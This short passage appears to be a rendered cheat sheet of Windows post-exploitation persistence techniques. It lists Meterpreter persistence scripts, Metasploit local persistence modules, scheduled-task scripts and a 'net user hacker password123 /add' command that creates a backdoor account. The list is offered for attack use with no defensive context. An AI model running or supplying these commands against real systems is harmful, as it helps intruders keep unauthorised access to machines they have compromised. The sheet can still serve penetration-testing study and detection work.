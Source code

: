 - **Persistence Scripts**
	- run persistence -h
	- exploit/windows/local/persistence
	- exploit/windows/local/registry_persistence

- **Scheduled Tasks**
	- run scheduleme
	- run schtaskbuse

- **Add a user**
	- net user hacker password123 /add